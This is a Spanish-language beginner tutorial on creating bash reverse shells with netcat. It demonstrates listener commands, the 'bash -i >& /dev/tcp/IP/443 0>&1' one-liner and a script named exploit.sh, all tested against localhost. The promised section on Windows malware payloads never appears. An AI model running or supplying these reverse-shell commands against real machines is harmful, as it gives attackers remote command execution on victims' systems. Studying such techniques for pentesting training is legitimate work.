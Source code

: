 ```yaml
---
title: ReverseShells & Malware
published: true
---
```




**Hola** hoy estaremos hablando de pentesting web, hablaremos sobre:
* *Creación de `ReverseShell.`*
* *Como están compuestos los payloads exploits malware para windows.*
<br>

<p>Primero, qué es una <font color="red">ReverseShell</font>. Lo explicaré en un lenguaje brusco: una ReverseShell es aquella que te permite ejecutar comandos en una PC que no es tu dominio, es decir, una IP que es la de la víctima conectada a un host, donde el host es tu equipo y te permite ejecución remota de comandos.</p>
<p><a href="https://www.revshells.com/" target="_blanck">Creación de reverse-shell.</a></p>
<br>


<br>

<center><font color="yellow">[<font color="red">*</font>]</font><font color="green"> Empezaremos con las pruebas de ReverseShell</font></center>
<br>
<font color="white">--> los programas a utilizar para la ReverseShell es bash, netcat, si usas Linux es probable que ya los tengas instalados, 
en el caso contrario ejecuta:</font>
<br>

* Para <font color="yellow"> Linux </font>:

```bash
sudo apt-get install netcat bash -y
```

* Para <font color="yellow">arch-Linux</font>:

```bash
pacman -Sy netcat bash
```

<br>

* <p>Importante</p>


<p>Para este caso no utilizaremos sh sino que usaremos bash. Esto cambia un poco el contexto de la forma en la que se ejecuta el código, pero aun así se pueden lograr de mil formas aunque tengas una sh.</p>

<img src="screenshots/screen_bash.jpg">

<p><font color="yellow">[↑]</font> Como no estoy en la zsh entonces vamos a operar desde la terminal y luego operaremos de un script.</p>
<br>

---
<br>
<p><font color="yellow">[*]</font> Empezamos poniéndonos en escucha por el puerto 443 de netcat : </p>

```bash
nc -nvlp 443
```

<p><font color="yellow">[*]</font> Miramos que ip tenemos con el comando ifconfig :</p>
```bash
ifconfig
```
<img src="screenshots/ifconfig.jpg">

<p><font color="yellow">[↑]</font> Como pueden ver tengo la ip 127.0.0.1</p>
<br>

<p><font color="yellow">[*]</font> Ahora estando en escucha con netcat "nc -nlvp 443" en el puerto 443, vamos a entablar la conexión desde otra terminal porque la primera está siendo ocupada por netcat. Entonces recuerden ejecutar el comando <b>bash</b> antes de entablar la conexión.</p>
<br>

<p><font color="yellow">[*]</font> Para entablar la conexión hacemos el siguiente comando :</p>

```bash
bash
```
```bash
bash -i >& /dev/tcp/TU-IP/443/ 0>&1
```
<br>
<img src='screenshots/reverse.jpg'>

<p><font color="yellow">[↑]</font> Como pueden ver se me abrió un <b>ReverseShell</b> en la parte donde estaba en escucha con netcat.</p>

-------
<br>

<p><font color="yellow">[*]</font> Ahora pasaremos a desarrollar un <b>script malicioso en bash</b>, para ello aremos los mismo solo que esta vez el comando :
`bash -i >& /dev/tcp/127.0.0.1/443 0>&1` ira dentro de un script sh para ello:</p>

<br>

```bash
touch exploit.sh && echo -e "bash -i &>/dev/tcp/$(cat /etc/hosts  | grep localhost | awk "NR==1" | cut -d " " -f "1-1")/443 0>&1" >> exploit.sh && chmod +x ./exploit.sh
```

<br>

<p><font color="yellow">[*]</font> Lo que hace este comando es crear un script en bash para poder entablarme una conexión reversa. Pueden hacer <b>ls</b> y verán un archivo llamado <b>exploit.sh</b> y de paso otorgarle permiso de ejecución.</p>

No se ofusque si no entiende la anterior  linea de código simplemente lo que hace es hacer un archivo con `touch` darle permisos
de ejecución con `chmod +x exploit.sh` y agregarle el código con `>>` :

```bash
   bash -i >& /dev/tcp/127.0.0.1 0>&1
```

<br>
<ph><font color="yellow">[*]</font> Pueden hacerlo manualmente con los siguientes comandos :</ph>

```bash
touch exploit.sh
```
```bash
chmod +x exploit.sh
```
<br>

Abren el archivo creado y coloca la siguiente linea : `bash -i >& /dev/tcp/SU-IP/443 0>&1`
<br>
<p><font color="yellow">[*]</font> Una vez ya hecho el archivo, pónganse en escucha por el puerto <b>443</b> con netcat. Recuerden que con el comando <q><b>nc -nlvp 443</b></q> nos poníamos en escucha por el puerto <b>443</b>. Este puerto puede ser modificado siempre y cuando el puerto no esté en uso, y claramente en el exploit o código pongan su respectivo puerto.</p>

ﾠ
<ph><font color="yellow">[*]</font> Nos ponemos en escucha con netcat</ph>
```#!/bin/bash
nc -nlvp 443
```
<br>
<p><font color="yellow">[*]</font> Y ejecutamos el archivo creado</p>
```#!/bin/bash
./exploit.sh
```

<img src="screenshots/final.jpg">

<p><font color="yellow">[↑]</font><b> Ahora como pude ver tengo una reverse Shell</b></p>
<br>

<p><font color="yellow">[*]</font> Lo más cómodo de hacerlo por script es que se puede ejecutar el archivo teniendo la zsh y ahorrándose el comando `bash` y ejecutar el archivo. Esto se debe a la extensión <b>"sh"</b> que tiene el archivo.</p>

<br>
<p>Vale ya sabes al menos cosas básicas.</p>

